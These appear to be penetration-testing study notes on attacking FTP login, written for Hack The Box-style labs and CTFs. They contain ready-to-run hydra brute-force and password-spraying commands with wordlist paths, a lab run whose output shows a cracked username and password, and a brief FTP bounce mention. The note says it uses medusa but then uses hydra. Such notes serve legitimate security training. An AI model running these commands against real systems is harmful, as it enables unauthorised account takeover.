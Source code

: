 # Protocol Specifics Attacks
If there is no anonymous authentication, we will need credentials. We can get credentials with [brute forcing](https://en.wikipedia.org/wiki/Brute-force_attack) and [password spraying](https://owasp.org/www-community/attacks/Password_Spraying_Attack). This is using medusa, there are many other options.
## Brute Forcing

**Brute Forcing**
- Can lock out an account if hit threshold

**Password Spraying**
- Better option
- Try with list of usernames and one common password
- Try more than one password if know the lockout threshold

### Brute Forcing with hydra

**Password and User list**
- Ok on training labs
- There are many password and username lists to try

**Unknown User or Password**
- Okay for CTFs
```shell
hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt  ftp://<% tp.frontmatter["RHOSTS"] %>

```

**Known user**
```shell
hydra -l [user] -P /usr/share/wordlists/metasploit/unix_passwords.txt  ftp://<% tp.frontmatter["RHOSTS"] %>
```

**Known password**
```shell
hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -p [password]  ftp://<% tp.frontmatter["RHOSTS"] %>
```

**Example**
```shell
BluePho3nix@htb[/htb]$  hydra -L usernames.list -P paswords.list ftp://10.129.202.219
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-13 03:01:29
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10400 login tries (l:104/p:100), ~650 tries per task
[DATA] attacking ftp://10.129.202.219:21/
[STATUS] 256.00 tries/min, 256 tries in 00:01h, 10144 to do in 00:40h, 16 active
[STATUS] 263.33 tries/min, 790 tries in 00:03h, 9610 to do in 00:37h, 16 active
[STATUS] 260.00 tries/min, 1820 tries in 00:07h, 8580 to do in 00:34h, 16 active
[STATUS] 261.07 tries/min, 3916 tries in 00:15h, 6484 to do in 00:25h, 16 active
[21][ftp] host: 10.129.202.219   login: mike   password: 7777777
```
### FTP Bounce Attack
[https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/](https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/)
![](Pasted%20image%2020240424195848.png)
- `-b` is used for FTP bounce attack
- Use credentials if you have them